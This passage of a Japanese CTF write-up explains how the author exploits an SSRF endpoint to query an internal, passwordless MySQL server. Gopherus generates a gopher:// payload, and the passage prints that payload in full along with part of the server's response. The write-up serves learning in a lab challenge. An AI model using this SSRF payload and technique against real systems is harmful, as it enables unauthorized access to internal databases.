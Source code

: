 `172.22.0.4:3306` で MySQL のサービスが動いているようで、ここで `SELECT ki11c0d3 from secret;` した結果と GET パラメータで与えた値が一致していればフラグが得られるようです。

SQLi できるような箇所はありませんが、接続時に使われる
接続先とユーザ名はわかっており、パスワード認証もされていないことがわかります。`gopher` プロトコルを用いた SSRF で `SELECT ki11c0d3 from secret;` の内容が得られないでしょうか。

SSRF するときに便利なツールのひとつに [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) があります。これを使えば、ユーザ名や実行する SQL を入力するだけで MySQL サーバに接続して SQL を実行してくれるような `gopher` プロトコルの URL を出力してくれます。やってみましょう。

```
$ gopherus --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: b4d_aR4n9
Give query to execute: SELECT ki11c0d3 from defenit_ctf_2020.secret;

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%62%34%64%5f%61%52%34%6e%39%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%3e%00%00%00%03%53%45%4c%45%43%54%20%63%6f%6e%63%61%74%28%27%5b%27%2c%6b%69%31%31%63%30%64%33%2c%27%5d%27%29%20%66%72%6f%6d%20%64%65%66%65%6e%69%74%5f%63%74%66%5f%32%30%32%30%2e%73%65%63%72%65%74%3b%01%00%00%00%01

-----------Made-by-SpyD3r-----------
```

接続先の IP アドレスである `127.0.0.1` を `172.22.0.4` に変え、また URL が GET パラメータから与えられることを考慮してパーセントエンコーディングをします。`/He4ltH_chEck_c2_cur1?url=gopher://172.22.0.4:3306/_%25a8%2500%2500%2501%2585…` にアクセスすると以下のようなレスポンスが返ってきました。

```
74
0
0
0
10
53
46
55
46
51
︙
```
